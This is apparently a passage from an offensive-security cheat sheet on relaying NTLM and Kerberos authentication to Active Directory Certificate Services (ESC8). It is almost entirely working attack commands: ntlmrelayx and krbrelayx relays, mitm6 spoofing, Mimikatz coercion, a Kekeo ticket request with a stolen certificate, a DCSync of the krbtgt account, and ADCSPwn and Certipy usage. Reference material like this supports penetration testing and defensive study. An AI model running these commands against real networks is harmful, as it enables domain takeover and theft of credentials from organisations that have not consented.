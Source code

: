   ```powershell
  impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

  # Mimikatz
  mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth

  # Kekeo
  kekeo> base64 /input:on
  kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

  # Mimikatz
  mimikatz> lsadump::dcsync /user:krbtgt
  ```

* **Version 3**: Kerberos Relay

  ```ps1
  # Setup the relay
  sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine

  # Run mitm6
  sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
  ```

* **Version 4**: ADCSPwn - Require `WebClient` service running on the domain controller. By default this service is not installed.

  ```powershell
  https://github.com/bats3c/ADCSPwn
  adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
  adcspwn.exe --adcs cs.pwnlab.local
  adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
  adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
  adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local

  # ADCSPwn arguments
  adcs            -       This is the address of the AD CS server which authentication will be relayed to.
  secure          -       Use HTTPS with the certificate service.
  port            -       The port ADCSPwn will listen on.
  remote          -       Remote machine to trigger authentication from.
  username        -       Username for non-domain context.
  password        -       Password for non-domain context.
  dc              -       Domain controller to query for Certificate Templates (LDAP).
  unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
  output          -       Output path to store base64 generated crt.
  ```

* **Version 5**: Certipy ESC8

  ```ps1
  certipy relay -ca 172.16.19.100
  ```
